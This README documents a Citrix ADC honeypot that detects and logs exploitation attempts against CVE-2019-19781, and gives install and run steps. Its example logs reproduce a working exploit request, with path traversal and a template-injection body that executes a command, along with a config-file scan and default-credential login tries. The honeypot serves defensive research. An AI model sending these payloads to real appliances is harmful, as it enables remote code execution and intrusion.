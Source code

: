 ```
I updated the loglines as we need the date-time format with dashes. Big thanks to Robert of x1sec who provided this Honeypot!
```

# Citrix ADC (NetScaler) Honeypot
- Detects and logs payloads for CVE-2019-19781 (Shitrix / Citrixmash)
- Logs failed login attempts
- Serves content and headers taken from real appliance in order to increase chance of indexing on search engines (e.g. google, shodan etc.)

![screenshot](https://github.com/x1sec/citrix-honeypot/blob/master/img/screenshot.png)

## Installation

### Precompiled
Precompiled Linux (x64) package available [here](https://github.com/x1sec/citrix-honeypot/releases)

```
mkdir citrix-honeypot
cd citrix-honeypot
wget https://github.com/x1sec/citrix-honeypot/releases/download/v0.02/citrix-honeypot-linux-amd64.tar.gz
tar -xf citrix-honeypot-linux-amd64.tar.gz
```

### go get
If you have a [Go](https://golang.org/) environment ready to go:

```bash
go get github.com/x1sec/citrix-honeypot
```

### Running
Generate self signed certificate:
```
openssl genrsa -out server.key 2048
openssl ecparam -genkey -name secp384r1 -out server.key
openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```

It's easy as:
```bash
./citrix-honeypot
```

The honeypot will listen on both port `80` and `443` (so it must be run as `root` user)

Or to detach and run as a background process:
```
nohup ./citrix-honeypot &
```

## Logs
Results / data is written to the `./log` directory. They are:

`hits.log` - Scanning attempts and exploitation attempts with all data (e.g. headers, post body)

`all.log` - All HTTP requests that are observed hitting the server

`logins.log` - Attempted logins to the web interface

`tlsErrors.log` - Often internet scanners will send invalid data to port `443`. HTTPS errors are logged here.

### Examples

Running [the first public released exploit](https://github.com/projectzeroindia/CVE-2019-19781):
```
$ cat logs/hits.log 
2020/01/23 08:27:55 
-------------------
Exploitation detected ...
src: xxx.xxx.xxx.xxx
POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
Content-Length: 181
Content-Type: application/x-www-form-urlencoded
Nsc_nonce: test1337
Nsc_user: /../../../../../../../../../../netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS
User-Agent: curl/7.67.0

url=http://example.com\&title=[%25+template.new({'BLOCK'%3d'exec(\'id | tee /netscaler/portal/templates/zToMJRAzp0T0FuUS2cEp41ZZbmrtmUqS.xml\')%3b'})+%25]\&desc=test\&UI_inuse=RfWeb
```

Scanning attempt:
```
$ cat logs/hits.log 
2020/01/23 08:41:02 
-------------------
Scanning detected ... 
src: xxx.xxx.xxx.xxx
GET /vpn/../vpns/cfg/smb.conf HTTP/2.0
Host: xxx.xxx.xxx.xxx
Accept: */*
User-Agent: curl/7.67.0
```

Login attempts:
```
$ cat logs/logins.log
2020/01/23 07:26:03 Failed login from xxx.xxx.xxx.xxx user:nsroot pass:nsroot
2020/01/23 08:26:03 Failed login from xxx.xxx.xxx.xxx user:admin pass:admin
```
